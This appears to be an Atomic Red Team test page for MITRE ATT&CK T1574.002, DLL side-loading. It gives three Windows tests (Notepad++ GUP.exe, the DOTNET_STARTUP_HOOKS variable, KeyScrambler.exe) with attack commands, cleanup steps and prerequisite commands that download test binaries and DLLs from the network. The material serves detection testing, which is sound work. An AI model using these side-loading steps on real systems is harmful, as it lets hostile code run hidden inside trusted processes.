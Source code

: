 # T1574.002 - Hijack Execution Flow: DLL Side-Loading
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1574/002)
<blockquote>Adversaries may execute their own malicious payloads by side-loading DLLs. Similar to [DLL Search Order Hijacking](https://attack.mitre.org/techniques/T1574/001), side-loading involves hijacking which DLL a program loads. But rather than just planting the DLL within the search order of a program then waiting for the victim application to be invoked, adversaries may directly side-load their payloads by planting then invoking a legitimate application that executes their payload(s).

Side-loading takes advantage of the DLL search order used by the loader by positioning both the victim application and malicious payload(s) alongside each other. Adversaries likely use side-loading as a means of masking actions they perform under a legitimate, trusted, and potentially elevated system or software process. Benign executables used to side-load payloads may not be flagged during delivery and/or execution. Adversary payloads may also be encrypted/packed or otherwise obfuscated until loaded into the memory of the trusted process.(Citation: FireEye DLL Side-Loading)</blockquote>

## Atomic Tests

- [Atomic Test #1 - DLL Side-Loading using the Notepad++ GUP.exe binary](#atomic-test-1---dll-side-loading-using-the-notepad-gupexe-binary)

- [Atomic Test #2 - DLL Side-Loading using the dotnet startup hook environment variable](#atomic-test-2---dll-side-loading-using-the-dotnet-startup-hook-environment-variable)

- [Atomic Test #3 - DLL Search Order Hijacking,DLL Sideloading Of KeyScramblerIE.DLL Via KeyScrambler.EXE](#atomic-test-3---dll-search-order-hijackingdll-sideloading-of-keyscrambleriedll-via-keyscramblerexe)


<br/>

## Atomic Test #1 - DLL Side-Loading using the Notepad++ GUP.exe binary
GUP is an open source signed binary used by Notepad++ for software updates, and is vulnerable to DLL Side-Loading, thus enabling the libcurl dll to be loaded.
Upon execution, calc.exe will be opened.

**Supported Platforms:** Windows


**auto_generated_guid:** 65526037-7079-44a9-bda1-2cb624838040





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| process_name | Name of the created process | string | calculator.exe|
| gup_executable | GUP is an open source signed binary used by Notepad++ for software updates | path | PathToAtomicsFolder&#92;T1574.002&#92;bin&#92;GUP.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
"#{gup_executable}"
```

#### Cleanup Commands:
```cmd
taskkill /F /IM #{process_name} >nul 2>&1
```



#### Dependencies:  Run with `powershell`!
##### Description: Gup.exe binary must exist on disk at specified location (#{gup_executable})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{gup_executable}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{gup_executable}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1574.002/bin/GUP.exe?raw=true" -OutFile "#{gup_executable}"
```




<br/>
<br/>

## Atomic Test #2 - DLL Side-Loading using the dotnet startup hook environment variable
Utilizing the dotnet_startup_hooks environment variable, this method allows for registering a global method in an assembly that will be executed whenever a .net core application is started. This unlocks a whole range of scenarios, from injecting a profiler to tweaking a static context in a given environment. [blog post](https://medium.com/criteo-engineering/c-have-some-fun-with-net-core-startup-hooks-498b9ad001e1)

**Supported Platforms:** Windows


**auto_generated_guid:** d322cdd7-7d60-46e3-9111-648848da7c02





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| process_name | Name of the created process | string | calculator.exe|
| preloader_dll | library for interfacing with the dotnet framework | path | PathToAtomicsFolder&#92;T1574.002&#92;bin&#92;preloader.dll|


#### Attack Commands: Run with `command_prompt`! 


```cmd
set DOTNET_STARTUP_HOOKS="#{preloader_dll}"
dotnet -h > nul
echo.
```

#### Cleanup Commands:
```cmd
taskkill /F /IM #{process_name} >nul 2>&1
```



#### Dependencies:  Run with `powershell`!
##### Description: .Net SDK must be installed
##### Check Prereq Commands:
```powershell
if (Test-Path "C:\Program Files\dotnet\dotnet.exe") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
winget install Microsoft.DotNet.SDK.6 --accept-source-agreements --accept-package-agreements -h > $null
echo.
```
##### Description: preloader must exist
##### Check Prereq Commands:
```powershell
if (Test-Path "#{preloader_dll}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1574.002/bin/preloader?raw=true" -OutFile "#{preloader_dll}"
```




<br/>
<br/>

## Atomic Test #3 - DLL Search Order Hijacking,DLL Sideloading Of KeyScramblerIE.DLL Via KeyScrambler.EXE
Various threat actors and malware have been found side loading a masqueraded "KeyScramblerIE.dll" through "KeyScrambler.exe", which can load further executables embedded in modified KeyScramblerIE.dll file.

**Supported Platforms:** Windows


**auto_generated_guid:** c095ad8e-4469-4d33-be9d-6f6d1fb21585






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Write-Host 1.Downloading KeyScrambler from official website to temp directory
Invoke-WebRequest -Uri "https://download.qfxsoftware.com/download/latest/KeyScrambler_Setup.exe" -OutFile $env:Temp\KeyScrambler_Setup.exe
Write-Host 2.Installing KeyScrambler with KeyScrambler_Setup.exe from temp directory
Start-Process -FilePath $env:Temp\KeyScrambler_Setup.exe -ArgumentList /S -Wait
Write-Host 3.Copying KeyScrambler.exe to temp folder,to avoid permission issues, which calls KeyScramblerIE.dll in CWD i.e. temp
Copy-Item "C:\Program Files (x86)\KeyScrambler\KeyScrambler.exe" -Destination $env:TEMP\KeyScrambler.exe
Write-Host 4.Executing KeyScrambler.exe, you should see a popup of missing KeyScramblerIE.dll, you can close this popup
Start-Process -FilePath $env:Temp\KeyScrambler.exe
Write-Host 5.A modified KeyScramblerIE.dll can be copied to temp, which can be misused by Attacker
```

#### Cleanup Commands:
```powershell
Write-Host 1.Kindly close the popup window asking for KeyScramblerIE.dll ,so that it gets deleted.

Remove-Item -Path $env:Temp\KeyScrambler_Setup.exe
Start-Process -FilePath "C:\Program Files (x86)\KeyScrambler\Uninstall.exe" -ArgumentList /S -Wait
Remove-Item -Path $env:Temp\KeyScrambler.exe
Write-Host 2.KeyScrambler cleanup completed successfully.
```





<br/>
